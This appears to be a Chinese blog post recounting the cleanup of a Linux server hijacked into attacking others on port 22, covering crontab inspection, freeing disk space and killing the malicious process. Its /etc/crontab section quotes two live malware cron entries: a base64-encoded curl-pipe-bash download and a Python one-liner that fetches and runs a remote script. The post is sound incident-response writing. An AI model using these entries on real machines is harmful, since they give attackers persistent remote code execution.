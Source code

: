 ```yaml
---
title: Linux 22端口对外攻击解决
date: 2023-06-25 09:22:36
permalink:  /linux/2305
sidebar: true
article: false #  是否未非文章页，非文章不显示 面包屑和作者、时间，不显示最近更新栏，不会参与到最近更新文章的数据计算中
comment: false #  评论区
editLink: false
---
```


近日同事的服务器遭受到攻击，怀疑是由于上网环境不安全，服务器链接信息被劫持，植入病毒造成服务器告警，告警信息如下：
::: danger
您的账号（账号ID: 100016685465，昵称：new）下的设备（IP：121.5.146.143），存在对其他服务器端口（TCP：22）的攻击行为，请您做好安全自查整改，并在24小时内停止上述行为。如逾期未处理，我们核实后将按相关法律法规和腾讯云服务协议要求对您停止服务。
:::
从告警信息可以看出是我们的服务器对外发起了攻击，后来对外访问得22端口被禁用，缓解了这个问题，但是没有从根本解决，接下来记录一下如何解决问题。首先你看到得自己的服务器状况一定是这样的

![](/assets/img/linux/2305/img.png)

面对进程占用我们可以 kill 掉，但还是会被重新启动，所以这种情况先检查是否有定时任务
```
# 显示 crontab 任务。 
crontab -l 
# 如果有非法定时任务删除他 
crontab -r 任务
```

但是我查看后同事的服务没有任何定时文件在执行，那我们需要查看 /etc/crontab 是否有非法定时任务
```
* * * * * root echo Y3VybCAtZnNTTCBodHRwOi8vMTQwLjk5LjMyLjQ4L2IyZjYyOC9jcm9uYi5zaAo=|base64 -d|bash|bash
* * * * * root python -c "import urllib2; print urllib2.urlopen('http://b.\\c\\l\\u-e\\.e\\u/t.sh').read()" >.1;chmod +x .1;./.1                                                                                                                                       
```
以上内容可以看到有两个定时任务一直再跑，其中一个一直在下载文件并且执行，此时我们干掉这两个任务，我在注掉这两个任务提示我

::: warning
/etc/crontab" E514: write error (file system full?) 系统文件已满
:::

此时需要删除一些文件释放空间以对以上内容进行保存
```
# 查看哪个文件占用较大可以删掉
du -sh 文件
```
以上完成后，重新启动定时任务
```
systemctl restart crond.service
```
找到进程所在文件，删除文件，停止进程
```
ps -ef | grep 18732
```
以上操作下来如果还有问题，那么可能需要排查所运行的服务是否有异常，比如docker是否有重复容器被启动等